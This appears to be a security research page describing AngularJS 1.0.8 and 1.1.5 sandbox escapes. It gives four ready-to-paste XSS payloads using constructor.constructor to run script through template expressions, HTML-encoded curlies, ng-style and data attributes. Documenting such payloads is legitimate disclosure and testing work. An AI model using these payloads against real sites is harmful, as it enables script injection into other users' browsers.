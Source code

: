 # Injection Attacks #

AngularJS offers frontend developers a scope object that attempts to isolate global variables from the templating work-flow and keep things lean and "Angular-only". This makes sense - and to be fair, the AngularJS documentation explicitly states that the scope object is not considered to be a sandbox. And indeed it is none. With a simple JavaScript trick one can break out of this "non-sandbox" and execute arbitrary code in window and other host objects.

## AngularJS 1.0.8 and 1.1.5 ##

### XSS in Template ###

As can be seen in the "paste-and-go"-ready code examples: once an attacker controls the content of the `ng-app` block, almost arbitrary script execution is possible. Everything inside `{{` and `}}` is treated as AngularJS expression and with the mentioned trick we can break out our scope and get access to `window`.

```
<script src="http://ajax.googleapis.com/ajax/libs/angularjs/1.1.5/angular.min.js"></script>
<div class="ng-app">
{{constructor.constructor('alert(1)')()}}
</div>
```

### HTML-encoded XSS in Template ###

AngularJS has no mercy for developers who like to secure their applications by properly encoding user generated data. As the following example shows, even HTML-encoded curlies allow payload execution.

```
<script src="http://ajax.googleapis.com/ajax/libs/angularjs/1.1.5/angular.min.js"></script>
<div class="ng-app">
&#x7b;&#x7b;constructor.constructor('alert(1)')()&#x7d;&#x7d;
</div>
```

And just to be on the safe side, AngularJS executes the alert twice.

### XSS via class-attribute ###

```
<script src="http://ajax.googleapis.com/ajax/libs/angularjs/1.1.5/angular.min.js"></script>
<div class="ng-app">
    <b class="ng-style: {x:constructor.constructor('alert(1)')()};" />
</div>
```

### XSS via data attributes ###

```
<script src="http://ajax.googleapis.com/ajax/libs/angularjs/1.1.5/angular.min.js"></script>
<b data-ng-app data-ng-style="constructor.constructor('alert(1)')()" />
```
